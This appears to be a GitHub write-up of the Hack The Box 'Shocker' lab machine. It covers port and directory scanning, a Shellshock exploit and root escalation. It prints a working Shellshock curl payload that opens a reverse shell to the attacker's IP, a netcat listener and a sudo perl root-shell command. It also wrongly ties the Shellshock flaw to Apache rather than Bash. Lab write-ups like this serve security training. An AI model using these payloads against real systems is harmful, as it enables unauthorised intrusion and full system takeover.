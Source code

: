 # HTB_Shocker


This is my write-up for the Shocker machine on Hack The Box. I exploited a Shellshock vulnerability in a Bash CGI script to gain initial access, then escalated to root using a simple sudo misconfiguration.

---

## Recon

### Nmap
I started with a full port scan:

```bash
nmap -A -Pn -p- -T4 10.129.163.43
````

![Nmap Scan](https://raw.githubusercontent.com/ibrahimAlbadrani/HTB_Shocker/refs/heads/main/Nmap1.png)


**Open ports:**

- `80/tcp` – Apache httpd 2.4.18
    
- `2222/tcp` – OpenSSH 7.2p2
    

The rest were filtered.

### Web Checks


![Whatweb](https://raw.githubusercontent.com/ibrahimAlbadrani/HTB_Shocker/refs/heads/main/whatweb.png)



- `whatweb` confirmed Apache 2.4.18
    
- Edited `/etc/hosts` to include:
    
    ```
    10.129.163.43 shocker.htb
    ```
    

---

## Web Enumeration

I ran both `dirsearch` and `gobuster` to find hidden paths.

```bash
gobuster dir -u http://shocker.htb -w /usr/share/wordlists/dirb/common.txt
```

![Gobuster Scan](https://raw.githubusercontent.com/ibrahimAlbadrani/HTB_Shocker/refs/heads/main/gobuster.png)

![Dirsearch Scan](https://raw.githubusercontent.com/ibrahimAlbadrani/HTB_Shocker/refs/heads/main/Dirsearch.png)



That revealed `/cgi-bin/`.

Then I focused on that path with extensions:

```bash
gobuster dir -u http://shocker.htb/cgi-bin/ -w /usr/share/wordlists/dirb/common.txt -x sh,pl,cgi
```

![Gobuster Directory Brute Force](https://raw.githubusercontent.com/ibrahimAlbadrani/HTB_Shocker/refs/heads/main/Gobuster%20Brute%20Force.png)


Found:

```
/cgi-bin/user.sh
```

## Vulnerability Discovery

While enumerating the /cgi-bin/ directory, I found a Bash script named user.sh. When I accessed it, it returned uptime information, which hinted that it was being executed server-side — a typical CGI behavior.

Knowing the server was running Apache 2.4.18 (confirmed by Nmap and WhatWeb), i google it and found that it's vulnerable to (CVE-2014-6271).
CVE-2014-6271 : known as Shellshock, which allowed remote code execution by injecting a malicious payload nt http headers like User-Agent. 

![CVE-2014-6271](https://raw.githubusercontent.com/ibrahimAlbadrani/HTB_Shocker/refs/heads/main/CVE-2014-6271.png)

---


### Reverse Shell

I set up my listener:

```bash
nc -lvnp 4444
```

![listener](https://raw.githubusercontent.com/ibrahimAlbadrani/HTB_Shocker/refs/heads/main/Listener.png)



Then launched the attack:

```bash
curl -H "User-Agent: () { :; }; /bin/bash -c 'bash -i >& /dev/tcp/10.10.14.71/4444 0>&1'" http://shocker.htb/cgi-bin/user.sh
```

Got a shell as user `shelly`.

![Shell](https://raw.githubusercontent.com/ibrahimAlbadrani/HTB_Shocker/refs/heads/main/Got%20a%20Shell.png)

---

## Privilege Escalation

First, I checked for sudo rights:

```bash
sudo -l
```

Output:

```
User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```

That means I could run Perl as root with no password.

### Root Shell

I used:

```bash
sudo perl -e 'exec "/bin/bash";'
```
Confirmed with `whoami` — I was root.


![Root](https://raw.githubusercontent.com/ibrahimAlbadrani/HTB_Shocker/refs/heads/main/Root.png)

---

## Flags

- `user.txt`: Found in `/home/shelly/
    
- `root.txt`: Found in `/root/root.txt

---

## Notes

This machine was a good refresher on CGI-Bash vulnerabilities and the Shellshock CVE. I avoided using Metasploit or automated exploits — everything was done manually to improve my process understanding.

---

**Written by:** Ibrahim Ismaeel  
[GitHub Profile](https://github.com/IbrahimAlbadrani)
